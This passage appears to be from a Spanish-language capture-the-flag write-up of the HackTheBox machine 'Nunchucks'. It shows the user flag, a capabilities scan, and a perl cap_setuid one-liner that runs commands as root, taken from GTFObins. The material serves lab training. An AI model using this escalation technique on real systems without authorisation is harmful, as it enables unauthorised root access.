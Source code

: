 ```null
```

Puedo ver la primera flag

```null
david@nunchucks:~$ cat user.txt 
f7999d0ce514afe23b234b05ec004569
```

# Escalada

El comando ```perl``` tiene la capabiity ```cap_setuid+ep```

```null
david@nunchucks:/$ getcap -r / 2>/dev/null 
/usr/bin/perl = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

En [GTFObins](https://gtfobins.github.io/gtfobins/perl/#capabilities) explican la forma de abusar de esta propiedad

<img src="/writeups/assets/img/NunChucks-htb/5.png" alt="">

No puedo spawnear directamente una ```bash```, pero sí ejecutar comandos

```null
david@nunchucks:/$ /usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "whoami";'
root
```

Aunque hay restricciones, como no poder abrir archivos

```null
david@nunchucks:/$ /usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "cat /root/root.txt";'
cat: /root/root.txt: Permission denied
```
